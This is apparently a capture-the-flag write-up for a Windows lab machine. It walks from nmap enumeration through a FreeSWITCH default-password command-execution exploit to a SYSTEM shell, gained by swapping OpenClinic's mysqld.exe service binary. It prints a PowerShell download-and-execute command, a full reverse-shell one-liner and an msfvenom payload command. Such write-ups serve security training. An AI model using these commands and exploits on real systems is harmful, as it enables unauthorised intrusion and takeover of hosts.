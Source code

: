 # Enumeration
```bash
Nmap scan report for 10.10.17.103
Host is up (0.18s latency).

PORT     STATE SERVICE          VERSION
3389/tcp open  ms-wbt-server    Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WIN-EOM4PK0578N
|   NetBIOS_Domain_Name: WIN-EOM4PK0578N
|   NetBIOS_Computer_Name: WIN-EOM4PK0578N
|   DNS_Domain_Name: WIN-EOM4PK0578N
|   DNS_Computer_Name: WIN-EOM4PK0578N
|   Product_Version: 10.0.17763
|_  System_Time: 2022-02-28T10:49:22+00:00
| ssl-cert: Subject: commonName=WIN-EOM4PK0578N
| Not valid before: 2021-11-08T16:47:35
|_Not valid after:  2022-05-10T16:47:35
|_ssl-date: 2022-02-28T10:49:23+00:00; 0s from scanner time.
8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Looking at the results, we have port 3389(RDP) and port 8021 running `Freeswitch`.

FreeSWITCH is a free, open-source communications server software supporting VoIP, Video chat, Text chat, and even screen sharing across multiple platforms.
Looking for public exploit for this
```bash
$ searchsploit freeswitch
FreeSWITCH - Event Socket Command Execution (Metasploit)
FreeSWITCH 1.10.1 - Command Execution 
```

# Exploitation
Looking at the exploit, the exploit takes _CMD_ and _ADDRESS_ from user. Then create a socket to the address and port. It uses default password to authenticate
and use `api system` to run the commands
```python
PASSWORD='ClueCon' # default password for FreeSWITCH
if b'auth/request' in response:
    s.send(bytes('auth {}\n\n'.format(PASSWORD), 'utf8'))
    response = s.recv(1024)
    if b'+OK accepted' in response:
        print('Authenticated')
        s.send(bytes('api system {}\n\n'.format(CMD), 'utf8'))
        response = s.recv(8096).decode()
        print(response)
```
Following the steps, we have RCE on the box.
```bash
nc -nvv 10.10.53.47 8021                                                   1 ⨯
(UNKNOWN) [10.10.53.47] 8021 (zope-ftp) open
Content-Type: auth/request
auth ClueCon

Content-Type: command/reply
Reply-Text: +OK accepted

api system "whoami"
Content-Type: api/response
Content-Length: 25
win-eom4pk0578n\nekrotic

# To get reverse shell
api system "powershell.exe IEX (new-object net.webclient).downloadstring('http://10.17.1.113:8080/rev.ps1')"
```
Looking at our `rev.ps1`
```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.17.1.113",9991);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Enumerating a bit, looking at other users and process, we found
```powershell
PS C:\> whoami
win-eom4pk0578n\nekrotic

PS C:\> net user 

User accounts for \\WIN-EOM4PK0578N

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
Nekrotic                 WDAGUtilityAccount    

PS C:\> net user nekrotic
User name                    Nekrotic
Local Group Memberships      *Administrators       *Users                
Global Group memberships     *None                 

PS C:\> tasklist /svc                                                                                                                                                                                                                                                                                                                          
Image Name                     PID Services                                                                                                                              
========================= ======== ============================================     
svchost.exe                   1288 DiagTrack                                    
mysqld.exe                    1464 OpenClinicMySQL                              
tomcat8.exe                    784 OpenClinicHttp                               
svchost.exe                   2060 W32Time         
...[snip]...
```
# Privilege Escalation
With a little enumeration, we find there is a projects folder in the C drive. The projects folder contains another one called "openclinic". Looking at public
exploit for the application, we found the [exploit](https://www.exploit-db.com/exploits/50448)

> A low privilege account is able to rename mysqld.exe or tomcat8.exe files located in bin folders and replace  with a malicious file that would connect back to an attacking computer giving system level privileges  (nt authority\system) due to the service running as Local System.

Following the steps, we create a malicious exe using _msfvenom_. 
```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.17.1.113 LPORT=4000 -f exe > evil.exe
```
We can now transfer the exe to victim machine, and rename the file.
```powershell
PS C:\projects\openclinic\mariadb\bin> rename-item mysqld.exe -newname mysqld.bak
PS C:\projects\openclinic\mariadb\bin> rename-item evil.exe -newname mysqld.exe
PS C:\projects\openclinic\mariadb\bin> shutdown /r now
```
Setup a listner, and we have the root shell
```powershell
nc -lvnp 4000                                                                                                                                                       
listening on [any] 4000 ...                                                                                                                                              
connect to [10.17.1.113] from (UNKNOWN) [10.10.53.47] 49670                                                                                                              
Microsoft Windows [Version 10.0.17763.737]                                                                                                                               
(c) 2018 Microsoft Corporation. All rights reserved.                                                                                                                     
                                                                                                                                                                         
C:\Windows\system32>whoami                                                                                                                                               
whoami                                                                                                                                                                   
nt authority\system     

C:\Users\Nekrotic\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 84FD-2CC9

 Directory of C:\Users\Nekrotic\Desktop

09/11/2021  07:39    <DIR>          .
09/11/2021  07:39    <DIR>          ..
09/11/2021  07:39                38 root.txt
09/11/2021  07:39                38 user.txt
               2 File(s)             76 bytes
               2 Dir(s)  50,508,554,240 bytes free

C:\Users\Nekrotic\Desktop>type root.txt
type root.txt
```
